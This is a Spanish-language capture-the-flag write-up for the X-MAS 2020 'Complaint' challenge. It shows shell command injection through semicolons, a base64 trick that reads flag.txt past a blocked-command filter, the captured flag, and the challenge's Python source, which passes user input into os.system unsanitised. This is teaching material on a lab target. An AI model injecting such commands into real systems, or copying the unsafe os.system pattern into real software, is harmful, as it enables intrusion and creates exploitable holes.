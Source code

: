 # Complaint
![Task](https://github.com/srbleu/Writeups-en-MarkDown/blob/master/CTFTasks/2k20/X-MAS/Task.jpg)

Bien tras hacer un par de pruebas parece que concatenar comandos funciona bien pero hay ciertas limitaciones:
```
;ls;
WHAT IS BOTHERING YOU???
;ls;

bin
boot
chall
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
YOUR COMPLAINT HAS BEEN RECORDED.
```
Probando los basicos para leer la flag: less,more,cat o grep no funciona ninguno. Veamos que tenemos:
```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
Tras ir listando vemos que tenemos base64
```
base64 flag.txt | base64 -d
X-MAS{h3ll0_k4r3n-8819d787dd38a397}
```
Bien ahora con la flag, leamos tambien el codigo del reto:
```
import os

cmplt = input("WHAT IS BOTHERING YOU???\n")

if "'" in cmplt:
	print("PLEASE SUBMIT YOUR COMPLAINT WITHOUT ' SO OUR SYSTEM CAN PROCESS IT.")
elif '"' in cmplt:
	print("PLEASE SUBMIT YOUR COMPLAINT WITHOUT \" SO OUR SYSTEM CAN PROCESS IT.")
else:
	os.system("echo " + cmplt + " > /dev/null")
	print("YOUR COMPLAINT HAS BEEN RECORDED.")
```
Bien vemos que nuesto bypas funciona por que se ejecuta lo siguiente:
```
echo ; ls ; 2>/dev/null
```

